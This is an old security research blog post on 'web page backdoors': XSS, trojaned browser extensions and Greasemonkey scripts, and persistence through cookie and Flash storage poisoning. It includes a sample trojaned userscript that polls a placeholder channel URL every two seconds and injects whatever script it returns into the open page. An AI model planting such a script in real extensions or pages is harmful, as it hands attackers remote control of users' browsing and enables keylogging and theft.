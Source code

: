 ```yaml
---
title: Backdooring Web Pages
author: petko-d-petkov
date: Mon, 28 Aug 2006 11:09:08 GMT
template: this/views/post.jade
category: fucked
---
```


![Greasemonkey](http://www.gnucitizen.org/static/blog/2006/08/greasemonkey.jpg "Greasemonkey")

The most obvious way of maliciously infecting web pages is to perform Cross-Site Scripting (XSS). In practice, XSS vulnerabilities can be persistent and non-persistent. Depending on the type, the attacker has various degree of control. The persistent vector produces better results and it lasts longer, where non-persistent vector lasts a single hit, although it is possible for the attacker to take control of the user browser by using other techniques. Here I am trying to explore another vector that can permanently take control of the user web experience.

IMHO, there are three types of web page backdoors: non-persistent, persistent and global persistent. Non-persistent backdoors occur on a single XSS vulnerable page (hit). Persistent backdoors a bit better because they can occur on one or more XSS vulnerable pages most probably coming from the same domain (site). Global persistent backdoors occur on all domains (sites) and in theory they can last forever.

Global persistent backdoors do not rely on the server being vulnerable to XSS or any other type of server related vulnerability. Global persistent backdoors exploit browser functionalities.

In order to install global persistent backdoor the attacker can exploit known browser vulnerabilities which allow silent installation of new functionalities, exploit known extension vulnerabilities which allow [Cross Context Scripting](/blog/cross-context-scripting) (execution of malicious web content in the browser context) or [exploit the user's trust](/blog/xssing-the-lan-4) ([trojaning](/blog/xssing-the-lan-3)).

The first two scenarios rely on a browser or a browser's extensions being vulnerable. Finding those vulnerabilities may take some time and it might not be that feasible, not to mention the fact that once an attacker exploits them the entire system probably will be subjected to attacker's wishes. On the other hand, the last scenario tricks the user into performing something legitimate which in fact turns to be something malicious (trojaning). This quite old trick but very successful and widely exploited as well.

Exploiting the user's trust in order to install backdoor could be achieved in several ways each one of which provides various degree of success. The first one is asking the user to install a browser extension. This type of scenario could be successful in browsers that do not have central extension repositories. In that respect IE is probably the most vulnerable. Opera, with its Web Widgets could potentially fall into the same category. On the other hand, Firefox users tend to install extensions from known sources such as `addons.mozilla.org`, so they are the least vulnerable.

The second scenario occurs when the attacker is asking the user to install extensions of extension. This one is far more trusted since extensions of extension are believed to be harmless. Firefox's and IE's Greasemonkey extension and Opera's Web Widgets are good examples of those kinds of scenarios.

To some respect, security aware users could detect malicious scripts so they are less vulnerable. On the other hand the average user trusts the security model of the browser, so  trojaned Greasemonkey script can be quite easily installed. A sample trojaned script can contain something like the following:

    setInterval(function () {
    	var head = document.getElementsByTagName('head').item(0);
    	var old  = document.getElementById('last_loaded_cmd');

    	if (old)
    		head.removeChild(old);

    	script = document.createElement('script');
    	script.src = 'http://path/to/channel';
    	script.type = 'text/javascript';
    	script.defer = true;
    	script.id = 'last_loaded_cmd';
    	void(head.appendChild(script));
    }, 2000);

The code presented above will query every 2 seconds  **http&#58;//path/to/channel** for JavaScript code that is evaluated inside the currently open page. This model allows attackers to inject any type of JavaScript based tool (scanners, other communication channels, page key loggers, etc). Similar effect can be achieved with Opera's Web Widgets although modifications of this code are required.

This type of backdoor has a big problem. Once the user finds that the Greasemonkey script (or the Web Widget) is not needed anymore, or that it contains malicious code, proper cleaning actions will be taken.

_This is good but like any other malicious code, web page backdoors can assure the existence of hidden channels for reinstallation and further propagation. In that respect the backdoor could perform internal cross site scripting by poisoning cookies or flash objects such as [The Flash Persistent Storage Model](http://codinginparadise.org/projects/storage/README.html) which is widely used in several AJAX frameworks. Other countermeasures can be taken as well such as taking advantage of the page caching issues. All of these are related to a discipline known as DOM based Cross-site scripting._
